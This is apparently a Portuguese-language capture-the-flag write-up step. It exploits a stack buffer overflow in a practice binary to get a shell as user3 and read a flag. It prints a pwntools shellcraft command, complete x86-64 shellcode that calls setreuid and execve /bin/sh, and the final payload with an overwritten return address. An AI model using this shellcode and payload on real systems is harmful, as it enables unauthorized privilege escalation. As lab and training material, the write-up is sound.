 <img width="559" height="178" alt="image" src="https://github.com/user-attachments/assets/2e78f884-d2ef-4fcb-8731-982d978ac729" />

O código adicionado será novamente: pwn shellcraft -f d amd64.linux.setreuid 1003

E então, devemos encontrar o código shell novamente como foi feito no outro exercício.

`run $(python -c "print('\x90' * 100 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 9 + 'B' * 6)")`

<img width="931" height="786" alt="image" src="https://github.com/user-attachments/assets/df775898-6750-4878-9cb8-4aac33e8d4f0" />

Sabendo onde o código começa, é possível usar o mesmo endereço de registro: 0x7fffffffe298, traduzido para \x98\xe2\xff\xff\xff\x7f

Por fim, basta substituir no payload e executar o binário com esse endereço para encontrarmos o shell como user3.

`python -c "print('\x90' * 100 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 9 + '\x98\xe2\xff\xff\xff\x7f')"`

Acessando novamente o arquivo `secret.txt` usando o comando `cat` e estando conectado no user3 temos:

>`wowanothertime!!`
